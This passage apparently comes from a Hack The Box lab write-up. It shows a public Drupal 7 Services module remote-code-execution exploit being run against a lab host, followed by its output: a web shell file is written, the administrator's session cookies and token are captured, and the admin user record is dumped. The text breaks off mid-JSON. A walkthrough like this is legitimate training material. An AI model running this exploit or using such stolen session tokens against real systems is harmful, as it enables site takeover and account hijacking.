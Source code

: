 
    root@kali# php 41564.php
    # Exploit Title: Drupal 7.x Services Module Remote Code Execution
    # Vendor Homepage: https://www.drupal.org/project/services
    # Exploit Author: Charles FOL
    # Contact: https://twitter.com/ambionics
    # Website: https://www.ambionics.io/blog/drupal-services-module-rce


    #!/usr/bin/php
    Stored session information in session.json
    Stored user information in user.json
    Cache contains 7 entries
    File written: http://10.10.10.9/0xdf.php



This gives me several options. Inside `session.json`, I now have the
cookies for the administrator's session:



    {
        "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
        "session_id": "GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs",
        "token": "JNbtufcqf_g1Cyuln_fYeJH3oAmhKXQzy-MzEc0nIe0"
    }



I also have information on the users in `user.json`:



    {
        "uid": "1",
        "name": "admin",
        "mail": "drupal@hackthebox.gr",
        "theme": "",
        "created": "1489920428",
        "access": "1492102672",
        "login": 1551974856,
        "status": "1",
        "timezone": "Europe\/Athens",
        "language": "",
        "picture": null,
        "init": "drupal@hackthebox.gr",
        "data": false,
        "roles": {
            "2": "authenticated user",
            "3": "administrator"
        },
        "rdf_mapping": {
            "rdftype": [
                "sioc:UserAccount"
            ],
            "name": {
                "predicates": [
                    "foaf:name"
                ]